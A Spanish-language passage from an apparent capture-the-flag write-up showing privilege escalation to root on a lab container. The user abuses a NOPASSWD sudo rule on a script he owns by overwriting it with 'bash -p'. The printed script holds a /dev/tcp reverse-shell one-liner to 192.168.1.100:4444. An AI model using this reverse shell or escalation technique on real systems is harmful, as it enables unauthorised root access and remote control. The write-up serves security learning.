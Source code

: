 Una vez dentro volvemos a ejecutar el comando `sudo -l` viendo así el binario **/bin/bash** y el script **/home/luciano/script.sh** como archivos configurados como **NOPASSWD**.

Buscamos el directorio y encontramos el script, donde vemos que el propietario es el mismo luciano, dándonos la posibilidad de cambiar el contenido y ejecutarlo como root.
```bash
luciano@e0633b1bd5ce:/home/joe$ sudo -l
Matching Defaults entries for Luciano on e0633b1bd5ce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luciano may run the following commands on e0633b1bd5ce:
    (root) NOPASSWD: /bin/bash /home/luciano/script.sh

luciano@eb67e53c9530:/home/joe$ cd 
luciano@eb67e53c9530:~$ ls -la
total 32
drwxr-x--- 3 luciano luciano 4096 Jul 23 16:10 .
drwxr-xr-x 1 root    root    4096 Jul 23 16:02 ..
-rw-r--r-- 1 luciano luciano  220 Jul 23 16:02 .bash_logout
-rw-r--r-- 1 luciano luciano 3771 Jul 23 16:02 .bashrc
drwxrwxr-x 3 luciano luciano 4096 Jul 23 16:06 .local
-rw-r--r-- 1 luciano luciano  807 Jul 23 16:02 .profile
-rw-rw-r-- 1 luciano luciano  112 Jul 23 16:07 script.sh
```

Viendo el contenido del script no encontramos nada interesante, pero podemos cambiar su contenido al ser el propietario.
```bash
luciano@eb67e53c9530:~$ cat script.sh 
#!/bin/bash


IP="192.168.1.100"
PORT="4444"

bash -c 'exec 5<>/dev/tcp/'$IP'/'$PORT'; cat <&5 | bash >&5 2>&5'

luciano@eb67e53c9530:~$ nano script.sh 
bash: nano: command not found
luciano@eb67e53c9530:~$ vim script.sh 
bash: vim: command not found
luciano@eb67e53c9530:~$ vi script.sh 
bash: vi: command not found
```
Nos encontramos con el problema de que no se encuentra disponible un editor de texto en el sistema para cambiar su contenido. Una solución es usar **echo**, añadiendo el comando "**bash -p**" para ejecutar una shell con privilegios y obteniendo finalmente el acceso root.
```bash
luciano@eb67e53c9530:~$ echo "bash -p" > script.sh 
luciano@eb67e53c9530:~$ cat script.sh 
bash -p
luciano@eb67e53c9530:~$ sudo /bin/bash /home/luciano/script.sh
root@eb67e53c9530:/home/luciano# whoami
root
```
